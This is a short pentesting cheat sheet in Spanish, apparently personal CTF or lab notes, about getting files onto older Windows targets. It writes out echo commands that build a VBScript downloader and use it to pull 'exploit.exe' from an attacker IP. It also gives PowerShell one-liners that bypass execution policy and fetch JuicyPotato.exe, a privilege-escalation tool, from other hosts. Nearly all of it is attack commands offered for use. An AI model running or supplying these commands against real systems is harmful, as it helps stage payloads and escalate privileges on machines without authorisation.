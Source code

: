 para windows mas viejos

### |  **script**
```
  echo strUrl = WScript.Arguments.Item(0) > wget.vbs
  echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
  echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
  echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs

  echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
  echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
  echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
  echo Err.Clear >> wget.vbs

  echo Set http = Nothing >> wget.vbs
  echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
  echo If http is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
  echo If http is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs

  echo If http is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
  echo http.Open "GET", strUrl, False >> wget.vbs
  echo http.Send >> wget.vbs

  echo varByteArray = http.ResponseBody >> wget.vbs
  echo Set  http = Nothing >> wget.vbs
  echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
  echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs

  echo strData = "" >> wget.vbs
  echo strBuffer = "" >> wget.vbs
  echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs

  echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
  echo Next >> wget.vbs
  echo ts.Close >> wget.vbs
```

### | **target**  
copy pasteamos el script
```
C:\program>   dir wget.vbs < para ver que se bajo
C:\program> cscript wget.vbs http://192.168.30.5/exploit.exe exploit.exe
```

&nbsp;
# **6 PowerShell**
---

### | **Download File to path**
```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile "IEX(New-Object System.Net.WebClient).downloadFile('http://10.10.14.5/JuicyPotato.exe','C:\users\merlin\documents\potato.exe')"
```
### | **desde url en el browser:**
```
echo IEX(New-Object System.Net.WebClient).downloadFile('http://10.10.10.3:8000/loli.txt','C:\Users\pelado\Desktop\loli.txt') | powershell -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile
```
